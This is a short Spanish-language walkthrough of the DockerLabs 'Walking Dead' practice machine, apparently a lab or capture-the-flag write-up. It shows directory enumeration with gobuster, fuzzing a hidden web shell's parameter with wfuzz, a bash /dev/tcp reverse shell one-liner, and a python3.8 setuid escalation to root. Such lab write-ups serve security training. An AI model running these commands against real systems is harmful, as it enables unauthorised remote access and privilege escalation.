 nmap: 22,80

![image](https://github.com/user-attachments/assets/fa1ec9f2-3652-4885-b2da-5f55617289e1)

entramos a la pagina y tenemos esto

![image](https://github.com/user-attachments/assets/c08b40e7-b159-485b-8b84-a1efb6d64a9d)

y en el código fuente esto:

![[dockerlabs/facil/walking dead/fuente.png]]

ahí muestra una "shell.php" y un "acces panel", hacemos un gobuster 

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,py,txt

vamos consiguiendo diferentes resultados

un backup.txt

![[dockerlabs/facil/walking dead/backup.png]]

un hidden

![[dockerlabs/facil/walking dead/hidden.png]]

probamos el hidden con el shell.php que nos mostro el código fuente

![[shell.php.png]]

pero no nos muestra nada, pero como es una shell.php vamos a probar si directorios extras comunes como un "?file" o "?cmd", de no ser así lanzamos este comando

     wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/hidden/.shell.php?FUZZ=id"

pero funciona con el "cmd"

![[shell1.png]]

así que podemos lanzar una bash y dejar el terminal en escucha

    bash -c 'bash -i>& /dev/tcp/172.17.0.1/443 0>&1'

tenemos esta pero no funciona así que la podemos URL encodear https://www.urlencoder.org/

y obtenemos la conexión

![[dockerlabs/facil/walking dead/conexion.png]]

ahora escalamos a root, encontramos esto

![[escalada 1.png]]

igual encontramos esto

![[cat1.png]]

python 3.8, así que podemos lanzar este comando para ser root

     python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![[rooot.png]]

y somos root! 
